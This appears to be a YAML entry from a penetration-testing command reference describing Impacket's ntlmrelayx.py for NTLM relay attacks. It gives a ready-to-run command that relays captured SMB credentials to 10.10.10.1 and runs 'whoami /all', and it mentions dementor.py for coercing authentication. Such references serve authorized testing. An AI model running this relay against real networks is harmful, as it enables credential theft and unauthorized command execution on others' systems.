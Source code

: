 ```yaml
---
description: |
  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

  The below command creates an SMB relay server that targets the IP 10.10.10.1, meaning any credentials that the SMB server recieves, gets relayed to that IP to attempt to authenticate and execute 'whoami /all'. In order for the SMB server to recieve credentials to relay, dementor.py can be used to trigger a forced authentication from the IP it's targeting to an attacker controlled SMB server.

  Command Reference:

  	Target IP: 10.10.10.1

items:
  No_Creds:
    - code: |
        python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
filters:
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

